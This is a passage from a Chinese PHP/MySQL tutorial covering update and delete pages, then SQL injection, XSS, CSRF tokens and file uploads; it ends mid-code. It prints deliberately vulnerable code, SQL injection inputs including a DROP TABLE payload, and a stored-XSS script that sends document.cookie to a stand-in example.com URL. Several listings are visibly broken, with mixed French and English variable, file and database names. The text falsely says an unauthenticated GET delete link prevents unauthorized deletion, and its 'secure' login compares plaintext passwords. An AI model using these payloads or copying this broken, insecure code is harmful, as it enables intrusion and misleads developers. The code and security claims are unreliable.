这段 PHP 代码通过 `POST` 方法检索作者修改表单提交的数据。它使用 `$_POST` 超全局变量，首先获取要更新的作者 ID，以及名、姓、邮箱、密码和传记等新信息。

然后，出于安全原因，使用 `password_hash()` 函数对密码进行哈希处理。接着使用 `PDO` 建立数据库连接。

准备一条更新查询，以更新 `authors` 表中的作者信息。查询参数绑定到从表单检索到的值。

随后执行请求并检查结果。如果更新成功，则显示成功消息；否则，返回错误消息。

#### 从数据库删除数据

在本节中，我们将探讨使用 PHP 和 MySQL 从数据库中删除数据的过程。删除数据是一项关键操作，需要特别小心，以避免任何无意的丢失或对现有数据的破坏。我们将探索在数据库表中删除记录的不同方法，重点关注良好的安全性和效率实践。您将学习如何安全地构建和执行删除查询，以及如何处理该过程中可能出现的任何错误。

我们将从探索最简单的方法开始，即使用 `SQL DELETE` 查询根据特定标准删除单条记录或记录集。我们还将讨论使用此方法时应采取的预防措施，以避免无意或未经授权的数据删除。

为了演示删除数据的过程，我们将继续开发我们的“图书馆”项目。我们将详细解释如何在您自己的项目中安全高效地执行此操作。


### 数据管理：更新与删除操作

#### 显示作者列表并添加删除功能

在 `display_authors.php` 页面中，该页面显示所有作者，我们将引入一个名为“Delete”的新列。该列中的每个单元格将包含一个链接，允许将相应的作者 ID 传递给新的 `delete_author.php` 文件。该文件将负责处理所选作者的删除操作。

以下是更新后的 `display_authors.php` 脚本代码：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>List of Authors</title>
    <link rel="stylesheet" href="style_tab.css">
</head>
<body>
    <h2>List of Authors</h2>

    <?php
    // Database connection
    $connexion = new PDO("mysql:host=localhost;dbname=bibliotheque", "root", "");
    $connexion->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    // Prepare selection query
    $query = $connection->prepare("SELECT * FROM authors");

    // Execute query
    $requete->execute();

    // Retrieve results
    $authors = $requete->fetchAll(PDO::FETCH_ASSOC);

    // Display results in HTML table
    if (count($authors) > 0) {
        echo "<table>";
        echo "<tr>
            <th>ID</th>
            <th>Name</th>
            <th>First name</th>
            <th>Email</th>
            <th>Biography</th>
            <th>Edit</th>
            <th>Delete</th>
        </tr>";

        foreach ($authors as $author) {
            echo "<tr>";
            echo "<td>{$author['author_id']}</td>";
            echo "<td>{$author['name']}</td>";
            echo "<td>{$author['firstname']}</td>";
            echo "<td>{$author['email']}</td>";
            echo "<td>{$author['biography']}</td>";
            echo "<td>
                <a href='form_modifier_auteur.php?id_auteur={$auteur['id_auteur']}'>
                    Edit
                </a></td>";
            echo "<td>
                <a href='supprimer_auteur.php?id_auteur={$auteur['id_auteur']}'>
                    Delete
                </a></td>";
            echo "</tr>";
        }
        echo "</table>";
    } else {
        echo "No author found.";
    }
    ?>
</body>
</html>
```

在 `display_authors.php` 脚本中，已向作者表添加新的“Delete”列。该列由以下代码定义的“Delete”表头标识：

```html
<th>Delete</th>
```

该列中的每一行都包含一个指向 `delete_author.php` 文件的链接，并带有删除操作参数。

```php
echo "<td>
    <a href='delete_author.php?author_id={$author['author_id']}'>
        Delete
    </a>
</td>";
```

此修改为用户提供了额外功能，可直接从表格显示的列表中删除特定作者。访问 `display_authors.php` 脚本时，将获得类似下图所示的结果：


随后，我们在 `library` 项目根目录下创建了一个名为 `delete_author.php` 的新空文件。如果您此时点击“Delete”列中的第一个链接，将进入一个空白页面，因为 `delete_author.php` 文件仍为空。但请注意 URL 中通过 `author_id` 参数传递的作者 ID。


以下代码实现了删除 URL 中传递标识符对应的作者的功能：

```php
<?php
// Check if the ID of the author to be deleted is present in the URL
if (isset($_GET['author_id'])) {
    // Retrieve author ID from URL
    $author_id = $_GET['author_id'];

    // Connect to database
    $connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
    $connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    // Prepare deletion request
    $request = $connection->prepare("DELETE FROM authors WHERE author_id = :author_id");

    // Bind parameters
    $request->bindParam(':author_id', $author_id);

    // Execute query
    $result = $request->execute();

    // Verify successful deletion
    if ($result) {
        echo "The author has been successfully deleted.";
    } else {
        echo "An error occurred during deletion";
    }
} else {
    echo "No author ID specified for deletion";
}
?>
```

此 PHP 代码执行以下操作：

*   使用 `isset($_GET['author_id'])` 条件检查 URL 中是否存在要删除的作者 ID。这确保在继续删除之前已正确传输作者 ID。
*   如果 URL 中存在作者 ID，则从超全局变量 `$_GET['author_id']` 中检索它。
*   使用 PDO 建立数据库连接，并使用适当的凭据。
*   准备一条删除请求，以从 `authors` 表中删除作者，其中作者 ID 对应于 URL 中传递的 ID。
*   使用 `bindParam()` 方法将查询参数绑定到作者 ID。
*   使用 `execute()` 方法执行查询。
*   根据删除结果，向用户显示相应消息，指示操作是否成功或是否发生错误。

此脚本确保仅使用有效的作者 ID 进行删除，从而避免数据库中发生任何未经授权或意外的删除。

当您点击任意“Delete”链接时，将收到消息“The author has been successfully deleted.” 如果您检查数据库，将发现相应作者确实已从 `authors` 表中删除。

点击“Delete”链接后，如果一切顺利，将显示消息“The author has been successfully deleted.” 此外，如果您检查作者表，会注意到相应作者确实已被删除。


##### 删除确认

从数据库中删除数据有时会产生重大后果。因此，在执行删除操作之前实施确认机制至关重要，以避免意外或不必要的删除。在执行最终删除前，务必请求确认。

为了在永久删除作者前增加删除确认步骤，可以使用 JavaScript 对话框请求用户确认其操作。

在 `display_authors.php` 文件中，修改删除链接以调用显示确认对话框的 JavaScript 函数：

```php
echo "<td>
    <a href='delete_author.php?author_id={$author['author_id']}' onclick='return confirmDelete()'>
        Delete
    </a></td>";
```

在显示所有作者的表格的删除链接中，我们集成了值为 `'return confirmDelete()'` 的 `onclick` 属性。当用户点击关联元素时，这会触发对 JavaScript 函数 `confirmDeletion()` 的调用。`return` 关键字用于传递该函数的返回值。在此上下文中，我们将创建一个名为 `confirmDelete()` 的新 JavaScript 函数。该函数向用户显示确认对话框，邀请他们确认是否真要执行关联操作（如删除元素）。如果用户确认，函数返回 `true`，允许点击事件正常进行并执行预期操作。反之，如果用户取消确认，函数返回 `false`，从而取消点击操作并阻止任何进一步动作。值得注意的是，本书不专注于 JavaScript，因此我们不会详细介绍这些概念。

接下来，在 `display_authors.php` 文件的 `<head>` 标签之间的 `<script>` 标签中创建名为 `confirmDelete()` 的 JavaScript 函数。

```html
<script>
function confirmDelete() {
    return confirm("Do you really want to delete this author?");
}
</script>
```

从现在起，当您点击作者删除链接之一时，将出现确认框，如下图所示：


#### 结论

在本章中，我们深入探讨了数据库内数据管理的关键方面，重点关注更新和删除流程。通过理解这些基本操作，您现在拥有了维护数据完整性和相关性的强大工具。


### 更新和删除数据

更新数据对于保持信息的最新和准确至关重要。得益于我们探索的技术，例如使用安全的 SQL 查询和参数绑定，您可以有信心地修改现有数据，将错误或漏洞的风险降至最低。

另一方面，数据删除是一项微妙的任务，需要审慎的方法。我们强调了在执行删除操作前进行确认的重要性，这是避免不可逆错误和防止宝贵数据丢失的关键做法。通过实施这一确认步骤，您可以加强应用程序的安全性，防止意外删除。

通过将对数据操作基本原理的透彻理解与安全开发实践相结合，您可以保证应用程序的健壮性和可靠性。通过使用本章介绍的技术和最佳实践，您将能够很好地有效管理项目数据，确保其在整个生命周期中的完整性和安全性。

### D 部分：WEB 应用程序安全

在 Web 开发的广阔天地中，如果有一个所有开发者都认同的恒定真理，那就是安全的至高重要性。本书的“Web 应用程序安全”部分是任何 PHP 开发者构建不仅功能完善，而且能在面对网络空间日益增长的威胁时保持韧性的应用程序的必备路线图。

互联网是一个动态的生态系统，新的 Web 应用程序不断被创建出来，随之而来的还有新的漏洞。网络攻击变得越来越复杂，后果可能是灾难性的，从个人数据泄露到关键服务瘫痪。因此，作为这些数字空间的创造者和守护者，我们有责任以安全为基石来设计它们。

在本部分中，我们将探讨最常见攻击的机制以及应对它们的策略。我们将研究针对服务端攻击的防御，因为数据和系统在那里最脆弱。我们将讨论防止 SQL 注入、防范 XSS 和 CSRF 等内容，以及更多主题。

但安全不仅仅是防止攻击。它还关乎采取全面的、分层的风险管理方法。因此，我们还将涵盖最佳实践，从最小权限原则到错误和日志管理、加密和安全通信。本部分将为您提供所需的工具，以便长期测试、审计和维护应用程序的安全性。

应对 Web 应用程序安全可能看起来令人望而生畏，但这是一个令人兴奋且必要的挑战。凭借您将在此获得的知识，您将准备好正面迎接这一挑战，并确保您的应用程序像它们应得的那样安全。准备好将您对安全的理解转化为真正的实践技能吧。

### 第 13 章：PHP 安全——攻击预防与风险管理

本章至关重要，因为它涉及针对 Web 应用程序核心——服务器的直接攻击防御。服务端安全是 Web 开发中最关键的方面之一，因为服务器存储着敏感数据并控制着应用程序的业务逻辑。

服务端攻击可以采取多种形式，从操纵数据库的 SQL 注入，到将您的网站变成攻击用户工具的 XSS 攻击。如果不采取足够的安全措施，攻击者可能会破坏应用程序的完整性、窃取数据，甚至完全控制您的系统。

在本章中，我们将探讨每位 PHP 开发者都需要掌握的关键概念和防御技术。我们将剖析最常见的攻击方法，理解其机制，最重要的是，学习如何应对它们。我们将深入探讨 SQL 注入的技术细节，探究 XSS 攻击的微妙之处，并揭开 CSRF 的神秘面纱。

保护 Web 应用程序是一项复杂的任务，需要透彻了解潜在威胁并时刻关注细节。在本章结束时，您将掌握所需的知识和工具，为您的服务器构建一座堡垒，确保应用程序保持安全可靠。

准备好加强您的防御，并将服务端安全作为您 PHP 开发中的首要任务吧。

#### SQL 注入攻击

SQL 注入攻击是对 Web 应用程序安全最常见、最危险的威胁之一。它们通过将恶意 SQL 代码注入未经过滤或未经验证的用户输入中，利用数据库管理系统（DBMS）中的安全漏洞。

这种攻击形式使攻击者能够执行未经授权且可能具有破坏性的 SQL 命令，例如删除数据、修改内容，甚至从数据库中提取机密信息。后果可能是灾难性的，从数据丢失到应用程序完全沦陷。

在本节中，我们将详细探讨 SQL 注入攻击的基础知识，重点关注攻击者使用的技术、对数据安全的潜在风险，以及预防和缓解这些攻击的最佳实践。通过理解这些攻击的底层机制并实施适当的安全措施，开发者可以增强其 Web 应用程序抵御这一普遍威胁的能力。

假设我们已经在 Web 应用程序“library”中实现了一个认证系统，正如上一节所述。在我们的“library”数据库中，有一个名为 `authors` 的表，包含姓名、名字、电子邮件地址、密码等信息。然而，重要的是要注意，在实践中，我们可能还拥有更敏感的信息，例如支付详情。假设我们的应用程序提供了一个登录表单，包含一个 `Email` 字段和一个 `Password` 字段。如果输入的电子邮件地址和密码存在于 `authors` 表中，则相应用户将通过认证并可以访问机密数据。

下面是该表单的代码示例，保存在名为 `form_connection.php` 的文件中：

```html
<!DOCTYPE html>
<html>
 <head>
 <title>Connection</title>
 </head>
 <body>
 <form action="connexion.php" method="post">
 <label for="email">Email:</label>
 <input type="text" id="email" name="email"><br><br>

 <label for="password">Password:</label>
 <input type="password" id="password" name="password"><br>
 <button type="submit">Log in</button>
 </form>
 </body>
</html>
```

下面是处理连接请求的 `connection.php` 文件中的代码示例：

```php
<?php
 // Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root","");

// Retrieve user data
$email = $_POST['email'];
$password = $_POST['password'];

// Vulnerable SQL query (direct)
$sql = "SELECT * FROM authors WHERE email = '$email' AND password = '$password'";

// Execute query
$result = $connection->query($sql);

// Check results
if ($result !== false && $result->rowCount() > 0) {
 echo "Login successful!";
} else {
 echo "Login failed.";
}
?>
```

如果您输入存储在 `authors` 表中的电子邮件地址和密码，您将收到“Login successful!”消息；但是，如果不存在，您将看到“Login failed.”

到目前为止，一切似乎都很正常，但如果网站没有像前面的代码那样妥善防范 SQL 注入，攻击者可以在登录表单的两个字段中输入恶意电子邮件地址和恶意密码。例如，攻击者可以不输入有效的电子邮件地址和密码，而是输入：

email: `' OR '1'='1`
password: `' OR '1'='1`


这样，即使他们没有提供有效的电子邮件地址和密码，仍然可以登录。


在这种情况下，上述代码生成的 SQL 查询将变为：

```sql
SELECT * FROM authors WHERE 
email = '' OR '1'='1' 
AND 
password = '' OR '1'='1';
```

在这种情况下，条件 `'1'='1'` 始终为真，这意味着查询将返回 `authors` 表中的所有行，从而允许攻击者访问数据库中存储的所有信息，包括敏感的用户数据。

此示例说明了简单的 SQL 注入漏洞如何危害网站安全，并允许攻击者访问机密数据。这就是为什么实施强有力的防护措施以防止此类攻击至关重要。

此外，如果恶意攻击者决定从您的数据库中删除整个表，SQL 注入可能会造成不可逆的损害。例如，如果攻击者输入如下电子邮件地址：

```sql
'; DROP TABLE authors; DROP TABLE books; --
```

而在“密码”字段中，他可以输入任何内容：


在这种情况下，SQL 查询将变为：

```php
$sql = "SELECT * FROM authors WHERE email = ''; DROP TABLE authors; DROP TABLE books; --' AND password = 'password'";
```

在这个恶意查询中，攻击者利用 SQL 注入技术连续执行多条 SQL 语句。在输入一个以单引号 (`'`) 结尾的恶意电子邮件地址来终止 `SELECT` 查询的字符串后，攻击者利用 `DROP TABLE` 语句删除 "authors" 表，随后又用 `DROP TABLE` 删除 "books" 表。最后，攻击者使用 `--` 注释掉查询的其余部分，以避免任何 SQL 错误并确保 `DROP TABLE` 语句得以执行。“密码”字段可以是任何值，因为它将被忽略。

如果您通过点击“登录”按钮提交此表单，“authors”表和“books”表都将从数据库中被不可逆地删除。

设想一下，如果您的数据库包含更敏感的数据，例如财务信息、机密医疗数据或详细个人信息，损害将有多大。在这种情况下，成功的 SQL 注入不仅会危及这些数据的机密性和完整性，还可能给您的组织带来严重的法律后果。

确实，此类数据的丢失或未经授权的披露不仅会损害公司声誉，还可能使您面临诉讼、罚款和其他监管制裁。此外，恢复丢失或损坏的数据可能极其昂贵且耗时，且无法保证完全成功。

因此，采取主动措施保护 Web 应用程序免受 SQL 注入攻击和其他安全威胁至关重要。这不仅意味着采用安全开发最佳实践，还意味着实施监控和入侵检测机制，以检测并快速响应任何可疑活动。

#### 如何预防和修复 SQL 注入漏洞？

要解决先前提供的代码中存在的 SQL 注入漏洞，您需要使用带有绑定参数的预处理语句。以下是修复代码的方法：

```php
<?php  

// 数据库连接  
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");  

// 检索用户数据  
$email = $_POST['email'];  
$password = $_POST['password'];  

// 使用绑定参数的安全 SQL 查询  
$sql = "SELECT * FROM authors WHERE email = :email AND password = :password";  
$request = $connection->prepare($sql);  
$request->bindParam(':email', $email);  
$request->bindParam(':password', $password);  

// 执行请求  
$request->execute();  

// 检查结果  
if ($request->rowCount() > 0) {  
    echo "Connection successful!";  
} else {  
    echo "Login failed.";  
}  

?>
```

采用这种方法，`$email` 和 `$password` 变量的值作为绑定参数传递给预处理查询。这可以防止 SQL 注入攻击，因为参数值不会被解释为 SQL 代码。此外，它还通过防止恶意用户更改 SQL 查询结构来保证增强的安全性。

#### 跨站脚本攻击 (XSS) 简介

跨站脚本攻击 (XSS) 是一种常见的漏洞，允许攻击者将恶意代码（通常是 JavaScript）注入到其他用户查看的网页中。当用户提供的数据未经过适当验证或转义时，就会发生这种攻击，这使得攻击者能够在另一个用户的浏览器上执行代码，从而危害应用程序的安全性。

XSS 主要有三种类型：反射型 XSS、存储型 XSS 和基于 DOM 的 XSS。在接下来的部分中，我们将详细了解前两种类型。

##### 反射型 XSS

在这种攻击类型中，恶意代码包含在 HTTP 请求中，随后由 Web 服务器在 HTML 响应中反射回去。攻击者随后可以将包含恶意代码的链接发送给受害者，受害者在点击链接时会无意中执行它。

想象一个带有搜索表单的网站，该表单直接在页面上显示搜索结果。如果网站没有正确转义特殊字符，攻击者就可以将恶意 JavaScript 代码插入搜索字段。

为了演示第一种类型的 XSS，在 `ebookphp` 目录中，让我们创建一个名为 `form_search.php` 的新文件，其中放置一个简单的搜索表单：

```html
<!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8"> 
    <meta name="viewport" content="width=device-width, initial-scale=1.0">  
    <title>Search Form</title>  
</head>  
<body>  
    <h2>Search</h2>  
    <form action="search.php" method="POST">  
        <label for="search">Search:</label>  
        <input type="text" id="search" name="query">  
        <button type="submit">Search</button>  
    </form>  
</body>  
</html>
```

结果：


接下来，我们创建另一个文件 `search.php`，用于处理表单的处理逻辑：

```html
<!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8"> 
    <meta name="viewport" content="width=device-width, initial-scale=1.0">  
    <title>Research results</title>  
</head>  
<body>  
    <h2>Search results</h2>  
    <?php  
    // 检索表单中输入的搜索词  
    $query = $_POST['query'];  
    // 显示结果  
    echo "<p>Results for search: <strong>$query</strong></p>";  
    ?>  
</body>  
</html>
```

当您通过执行 `form_search.php` 文件使用搜索表单，并在搜索字段中输入例如 "Maximilien Lambert" 后提交表单时，您将获得类似如下的结果：


但是，如果用户输入 JavaScript 代码，例如 `<script>alert('XSS reflected!')</script>`，而网站在将搜索数据显示在页面上之前没有执行适当的验证或转义，恶意 JavaScript 脚本将在用户执行搜索时在其浏览器中执行，显示一个包含消息 "XSS reflected!" 的对话框。


为了修复此示例中的 XSS 漏洞，我们需要在将输入数据显示在结果页面之前对其进行清理。具体方法如下：

**输入数据清理：** 在结果页面中使用 `$query` 变量之前，我们需要通过移除任何潜在的恶意 HTML 或 JavaScript 代码来清理数据。我们可以通过使用 `htmlspecialchars()` 函数对特殊字符进行编码来实现这一点。

以下是修复 XSS 漏洞的修改后代码：

```html
<!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8"> 
    <meta name="viewport" content="width=device-width, initial-scale=1.0">  
    <title>Research results</title>  
</head>  
<body>  
    <h2>Search results</h2>  
    <?php  
    // 检索表单中输入的搜索词  
    $query = htmlspecialchars($_POST['query']);  
    // 显示结果  
    echo "<p>Results for search: <strong>$query</strong></p>";  
    ?>  
</body>  
</html>
```


通过应用此修改，用户输入的搜索词将在结果页面显示前得到适当的清理，通过防止恶意脚本在用户浏览器中执行，从而防范 XSS 攻击。

实际上，`htmlspecialchars()` 是一个 PHP 函数，用于将某些特殊字符转换为等效的 HTML 实体。它将 `<`、`>`、`&`、`"` 和 `'` 等字符替换为其 HTML 等效项（`&lt;`、`&gt;`、`&amp;`、`&quot;`、`&#39;`）。这意味着如果用户输入类似 `<script>alert('XSS!');</script>` 的内容，`htmlspecialchars` 函数会将 `<` 和 `>` 标签转换为 HTML 实体（`&lt;` 和 `&gt;`），从而防止脚本标签在浏览器中执行。

#### XSS Stored（存储型/持久型）

存储型 XSS，也称为持久型 XSS，危害性更大，因为恶意脚本存储在服务器上（例如数据库中），随后会显示给访问受影响页面的每一位用户。当 Web 应用程序存储了不安全的用户提供的数据，然后在未经适当转义或过滤的情况下将其显示在网页上时，就会发生存储型 XSS。这允许攻击者将恶意代码（如 JavaScript 脚本）注入网页，从而危害访问该页面的用户的安全。

##### 存储型 XSS 攻击示例

设想一个在线论坛，用户可以在不同主题下发布评论。网站将这些评论存储在数据库中，然后在相应页面上显示它们。如果 Web 应用程序在显示评论前未执行适当的验证或转义，攻击者就可能提交包含恶意 JavaScript 代码的评论。

例如，攻击者可能提交包含以下代码的评论：

```
<script>
  fetch('https://www.example.com/my_cookies.php?cookie=' + document.cookie);
</script>
```

当该评论在网页上显示时，恶意 JavaScript 代码会在每位查看该页面的用户的浏览器中执行。在本例中，JavaScript 代码将用户的 Cookie 发送到攻击者控制的网站，从而泄露用户信息的机密性。

##### 存储型 XSS 防范

要防范 `stored XSS` 攻击，实施适当的安全实践至关重要，其中包括：表单输入验证和输出转义：

###### 输入验证

在将用户提供的数据存入数据库前，始终对其进行验证和过滤。这可能包括检查预期的数据格式（例如电子邮件地址），以及使用白名单仅允许特定值。

假设我们在网站上有一个注册表单，用户可以提交评论。为了验证用户输入，我们可以使用 PHP 内置验证函数（如 `filter_var()`）来检查电子邮件地址格式是否正确。

####### PHP 邮箱验证示例

```
$email = $_POST['email'];

// 验证邮箱地址
if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
    echo "Invalid email address";
    // 处理错误或阻止记录保存
} else {
    // 将邮箱地址保存到数据库
}
```

###### 输出转义

在将动态数据插入 HTML 页面前，对其进行适当转义。这意味着将所有特殊字符转换为 HTML 实体，以便浏览器将其视为纯文本，而非 HTML 或 JavaScript 代码。

在我们的评论表单示例中，在网页上显示评论前，我们需要转义 `<`、`>`、`&`、`"` 等特殊字符，以防止恶意脚本执行。

如果运行以下代码，将显示一个包含文本 "XSS!" 的 JavaScript 窗口：

```
$comment = "<script>alert('XSS!');</script>";
echo "<div>$comment</div>";
```

在 PHP 中，要转义 `$comment` 变量的内容，只需按如下方式使用 `htmlspecialchars()` 函数：

```
$comment = "<script>alert('XSS!');</script>";
// 转义特殊字符
$comment_echappe = htmlspecialchars($comment);
// 在网页上显示转义后的评论
echo "<div>$comment_echappe</div>";
```

在这段代码中，`htmlspecialchars()` 函数用于转义评论中的特殊字符，这意味着 `<`、`>`、`&`、`"` 等特殊字符将被转换为 HTML 实体，从而在网页上显示时变得无害。最后，转义后的评论在网页的 `<div>` 标签内显示。

当这段代码被执行并在网页上显示时，`<script>` 标签不会被解释为要执行的 JavaScript 代码，而是作为纯文本显示在屏幕上。因此，浏览器不会显示警报对话框，而是直接显示 `<script>alert('XSS!');</script>`，这表明 `<script>` 标签及其内容（包括对 `alert()` 函数的调用）已作为纯文本显示在网页上。这证明 `htmlspecialchars()` 函数成功转义了特殊字符，防止了 JavaScript 代码作为 XSS 攻击被执行。

通过应用这些良好的安全实践，开发人员可以显著降低存储型 XSS 攻击的风险，从而保护其 Web 应用程序用户的安全和隐私。

#### 跨站请求伪造 (CSRF)

跨站请求伪造 (CSRF) 是一种恶意攻击，它利用已认证用户的信任，在用户不知情的情况下执行未授权操作。该攻击利用了这样一个事实：Web 浏览器会在发送给某个站点的每个请求中自动携带认证 Cookie，即使这些请求是从另一个站点发起的。

##### CSRF 攻击原理

CSRF 攻击通常通过诱导已认证用户访问包含特制链接或表单的恶意站点来实施，这些链接或表单旨在对目标站点执行特定操作。当用户访问恶意站点时，由后者生成的请求会自动发送到目标站点，并携带用户的认证信息，而用户对此次攻击毫不知情。

##### 实施反 CSRF 令牌

防范 CSRF 攻击的主要措施是使用反 CSRF 令牌，也称为同步令牌或防重放令牌。这些令牌是与每个用户和每个会话关联的唯一随机值。它们在服务器端生成，并包含在发送给用户的表单或 POST 请求中。提交请求时，服务器会检查相应的反 CSRF 令牌对于该特定会话和操作是否有效。如果令牌无效或缺失，则拒绝该请求。

##### 反 CSRF 令牌实现示例

下面是一个在 PHP 中生成和验证反 CSRF 令牌的简单示例：

```
<?php

session_start();
// 生成反 CSRF 令牌
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// 在表单中包含反 CSRF 令牌
echo '<form action="csrf_processing.php" method="post">';
echo '<input type="hidden" name="csrf_token" value="' . $_SESSION['csrf_token'] . '">';
echo '<input type="submit" value="Submit">';
echo '</form>';

// 服务端验证反 CSRF 令牌
if (isset($_POST['csrf_token']) && $_POST['csrf_token'] === $_SESSION['csrf_token']) {
    // 处理请求
    echo "Request processed successfully";
} else {
    // 拒绝请求
    echo "Error: invalid CSRF request.";
}

?>
```

这段 PHP 代码演示了如何使用反 CSRF 令牌来防止 Web 表单上的 CSRF 攻击。以下是代码各部分的详细解释：

**`session_start()`：** 此函数启动一个新会话或恢复现有会话。会话用于存储会话变量（如反 CSRF 令牌），这些变量可通过不同页面访问。


### 反 CSRF 令牌生成

代码检查会话中是否已存在反 CSRF 令牌。如果不存在，则使用 `random_bytes()` 函数创建一个 32 字节的随机字符串，再通过 `bin2hex()` 将其转换为十六进制表示，从而生成一个新令牌。

#### 在表单中包含反 CSRF 令牌

随后，反 CSRF 令牌作为隐藏字段（`<input type="hidden">`）包含在 HTML 表单中。这确保了当表单提交到服务器时，令牌会随表单数据的其余部分一同提交。

#### 服务端反 CSRF 令牌验证

表单提交时，反 CSRF 令牌也会随表单数据一同提交。代码检查提交的令牌是否与会话中存储的令牌匹配。如果两个令牌匹配，则请求合法，可成功处理。否则，将显示无效 CSRF 错误。

这种反 CSRF 令牌机制确保了从表单提交的每个请求都包含唯一且有效的令牌，通过验证请求确实来自授权网站来防止 CSRF 攻击。

##### 实现示例

为了演示 PHP 中反 CSRF 令牌的生成与验证，我们将在 `ebookphp` 目录下创建两个文件：包含表单的 `form_csrf.php` 文件，以及处理该表单提交数据的 `csrf_processing.php` 文件。以下是这两个文件的简单代码示例：

##### 文件 1：`form_csrf.php`

```php
<?php

session_start();

// 生成反 CSRF 令牌
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// 显示包含反 CSRF 令牌的表单
echo '<form action="csrf_processing.php" method="post">';
echo '<input type="text" name="name" placeholder="Name">';
echo '<input type="hidden" name="csrf_token" value="' . $_SESSION['csrf_token'] . '">';
echo '<input type="submit" value="Submit">';
echo '</form>';

?>
```

**结果：**


此 PHP 代码生成一个反 CSRF 令牌，并显示一个包含该令牌的 HTML 表单。以下是逐行解释：

*   `session_start();`：启动或恢复现有会话。
*   `if (!isset($_SESSION['csrf_token'])) { ... }`：检查 `csrf_token` 键是否已存在于会话中。如果不存在，则生成一个反 CSRF 令牌。
*   `$_SESSION['csrf_token'] = bin2hex(random_bytes(32));`：使用 `random_bytes(32)` 函数获取 32 字节随机数据，再通过 `bin2hex()` 函数将这些字节转换为十六进制字符串，从而生成随机反 CSRF 令牌。
*   `echo '<form action="csrf_processing.php" method="post">';`：开始 HTML 表单标签，action 指向文件 `csrf_processing.php`，方法为 POST。
*   `echo '<input type="text" name="lastname" placeholder="Lastname">';`：显示一个用于输入姓名的文本输入字段。
*   `echo '<input type="hidden" name="csrf_token" value="' . $_SESSION['csrf_token'] . '">';`：显示反 CSRF 令牌的隐藏字段，其值为存储在会话中的令牌。
*   `echo '<input type="submit" value="Submit">';`：显示一个提交按钮以发送表单。

简而言之，此代码生成一个包含反 CSRF 令牌的表单，以在表单提交时防范 CSRF 攻击。

##### 文件 2：`csrf_processing.php`

```php
<?php

session_start();

// 反 CSRF 令牌验证
if (isset($_POST['csrf_token']) && $_POST['csrf_token'] === $_SESSION['csrf_token']) {
    // 令牌有效时处理请求
    echo "Request processed successfully";
} else {
    // 令牌无效时拒绝请求
    echo "Error: invalid CSRF request.";
}

?>
```

此 PHP 代码验证随 `form_csrf.php` 表单提交的反 CSRF 令牌。以下是逐行解释：

*   `session_start();`：启动或恢复现有会话。
*   `if (isset($_POST['csrf_token']) && $_POST['csrf_token'] === $_SESSION['csrf_token']) { ... }`：检查随表单提交的反 CSRF 令牌（`$_POST['csrf_token']`）是否与存储在会话中的令牌（`$_SESSION['csrf_token']`）匹配。如果两个令牌匹配，则请求有效，可进行处理。
*   `echo "Request processed successfully.";`：如果令牌有效，显示请求已成功处理的消息。
*   `else { ... }`：否则，如果令牌不匹配，则该请求可能是 CSRF 攻击，予以拒绝。
*   `echo "Error: invalid CSRF request.";`：显示指示 CSRF 请求无效的错误消息。

简而言之，此代码通过在处理请求前检查随表单提交的反 CSRF 令牌的真实性来确保安全，从而防范 CSRF 攻击。如果令牌有效，请求将成功处理；否则将被拒绝。

##### 测试流程

要测试此流程，请在浏览器中访问 `form_csrf.php` 并提交表单。如果反 CSRF 令牌有效，您应看到“Request processed successfully”消息。如果您尝试在没有令牌或使用无效令牌的情况下提交表单，将看到“Error: invalid CSRF request.”消息。如果您尝试直接访问 `csrf_processing.php` 文件，也将收到“Error: invalid CSRF request.”消息。

### 安全文件上传

用户文件上传是许多 Web 应用程序的常见功能。然而，如果上传的文件未得到妥善管理，这会带来潜在的安全风险。在本节中，我们将探讨与文件上传相关的风险以及保护此功能的最佳实践。

#### 文件上传相关风险

用户文件上传的主要风险包括：

*   **恶意文件注入**：攻击者可上传包含恶意代码的文件，如 PHP 脚本、恶意软件或可执行文件，以利用服务器漏洞。
*   **大小溢出**：用户可上传大文件以耗尽存储系统或导致拒绝服务。
*   **伪造文件扩展名**：攻击者可使用欺骗性扩展名重命名文件，以绕过基于文件扩展名的安全检查。
*   **安全漏洞**：配置错误或代码漏洞可能被攻击者利用来操纵上传的文件或访问服务器上的敏感文件。

#### 文件验证与清理

以下是安全文件上传的几项最佳实践：

*   **文件类型验证**：通过检查上传文件的扩展名和 MIME 类型来限制允许的文件类型。不要仅信任文件扩展名，因为它很容易被伪造。
*   **限制文件大小**：为上传文件设置大小限制，以防止过大文件和系统滥用。
*   **重命名上传文件**：重命名上传文件，赋予其唯一、安全的名称，以避免名称冲突和运行恶意文件的风险。
*   **安全存储**：将上传文件存储在 Web 服务器根目录之外的安全目录中，以限制未授权用户对文件的直接访问。
*   **杀毒扫描**：使用杀毒扫描工具检查上传文件是否包含恶意软件或危险内容。
*   **权限管理**：确保上传文件具有适当的权限，以防止未授权访问和安全漏洞。

通过在管理文件上传时实施这些安全实践，您可以有效降低与该功能相关的安全风险，保护应用程序免受潜在攻击。

#### PHP 上传示例

以下是一个处理文件上传并内置安全措施的 PHP 代码示例，您可以将其放在例如 `upload_file.php` 文件中以供测试。

```php
<?php

// 检查表单是否已提交
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // 检查文件
    if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
        // 目标目录路径
        $uploadDir = "uploads/";

        // 文件名
        $fileName = basename($_FILES["file"]["name"]);

        // 服务器上的完整文件路径
        $filePath = $uploadDir . $fileName;
```


<?php

// 获取文件扩展名

$fileExtension = strtolower(pathinfo($filePath, PATHINFO_EXTENSION));

// 检查文件 MIME 类型

$fileMimeType = mime_content_type($_FILES["file"]["tmp_name"]);

$allowedMimeTypes = array('image/jpeg', 'image/png', 'application/pdf');

if (!in_array($fileMimeType, $allowedMimeTypes)) {

echo "错误：不允许的文件类型。";

